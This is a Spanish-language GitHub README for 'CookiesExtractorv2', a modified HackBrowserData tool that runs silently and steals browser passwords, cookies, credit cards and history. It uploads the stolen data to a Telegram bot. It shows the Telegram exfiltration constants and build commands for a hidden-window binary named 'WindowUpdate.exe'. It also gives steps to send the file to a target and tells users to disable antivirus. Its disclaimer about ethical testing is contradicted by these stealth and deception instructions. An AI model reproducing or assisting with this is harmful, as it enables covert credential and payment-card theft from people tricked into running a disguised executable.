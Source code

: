 <h1>CookiesExtractorv2</h1>
CookiesExtractorv2 es una herramienta desarrollada en Go diseñada para extraer datos sensibles de navegadores web (contraseñas, historial, cookies, marcadores, tarjetas de crédito, historial de descargas, localStorage y extensiones). A diferencia de la herramienta base, esta versión opera de forma discreta en segundo plano, recolecta los datos extraídos y los envía automáticamente a un bot de Telegram configurado. Soporta los navegadores más populares en Windows, macOS y Linux, e incluye mecanismos para su persistencia y ocultamiento en el sistema objetivo.
  
> Advertencia Importante:
Esta herramienta es una modificación del proyecto original HackBrowserData y ha sido configurada para operar de manera autónoma, recolectando datos de navegación y enviándolos a un destino remoto (Telegram). Su uso implica la extracción y transmisión de información sensible del sistema donde se ejecuta. Esta herramienta está destinada EXCLUSIVAMENTE para fines de investigación de seguridad y pruebas de penetración ÉTICAS en entornos controlados y con el CONSENTIMIENTO EXPLÍCITO Y DOCUMENTADO del propietario del sistema. Cualquier uso no autorizado de este software para acceder, recopilar o exfiltrar datos sin el permiso expreso del propietario del sistema es ILEGAL y NO ÉTICO. El autor y los contribuidores no asumen ninguna responsabilidad legal o moral por cualquier uso indebido o ilegal de esta herramienta.

Navegadores Compatibles

### Windows
| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| 360 Speed          |    ✅     |   ✅    |    ✅     |    ✅    |
| QQ                 |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Internet Explorer  |    ❌     |   ❌    |    ❌     |    ❌    |


### MacOS

Based on Apple's security policy, some browsers **require a current user password** to decrypt.

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| Arc                |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Safari             |    ❌     |   ❌    |    ❌     |    ❌    |

### Linux

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge Dev |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |


## Instalación
Descarga el proyecto o clona el repositorio

```bash
$ git clone https://github.com/GrpDsG20/CookiesExtractorv2
```

### Configura tu bot de Telegram:
Antes de compilar, necesitas editar el archivo main.go en la ruta ``` cmd/hack-browser-data/main.go. ``` Busca las líneas TelegramToken y ChatID y reemplaza los valores por tu propio token de bot de Telegram y el ID de tu chat.
```bash
const (
    TelegramToken   = "TU_TOKEN_DE_BOT_AQUI" // Reemplaza esto con tu token real
    ChatID          = "TU_CHAT_ID_AQUI"     // Reemplaza esto con tu ID de chat real
    TelegramFileAPI = "https://api.telegram.org/bot%s/sendDocument"
)
```
###  Navega a la raíz de tu proyecto
```bash
cd CookiesExtractorv2
```

### Inicializa y limpia tu módulo (si aún no lo has hecho)
```bash
go mod tidy
```

###  Navega hasta este apartado
```bash
cd cmd\hack-browser-data
```

### Compila el ejecutable (desde la raíz del módulo)
```bash
go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe

```

# Envia el .exe por cualquier medio descargalo y ejecutalo 

Nota: En algunas situaciones, esta herramienta de seguridad puede ser detectada como un virus por Windows Defender u otro software antivirus y no podrá ejecutarse. Es recomendable desactivar el antivirus temporalmente, como si instalaras cualquier programa "crackeado". El código es de código abierto, puedes modificarlo y compilarlo tú mismo. Ten en cuenta que esta versión modificada está diseñada para operar de forma sigilosa y enviar datos a un bot de Telegram, lo cual es la razón principal de tales detecciones.


Compilación cruzada (Cross compile)
Aquí tienes un ejemplo de cómo usar macOS para compilar para Windows y Linux. Asegúrate de estar en la raíz de tu módulo (CookiesExtractorv2) cuando ejecutes estos comandos.

Para Windows
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe ./cmd/hack-browser-data

Para Linux
GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o WindowUpdate ./cmd/hack-browser-data

Ejecución
Importante: Esta versión de la herramienta está diseñada para ejecutarse de forma sigilosa en segundo plano. Los ejemplos de comandos que se muestran a continuación corresponden al comportamiento de la herramienta original para exportación local y para fines de depuración o prueba de sus capacidades de extracción, no a la operación normal de esta versión modificada.


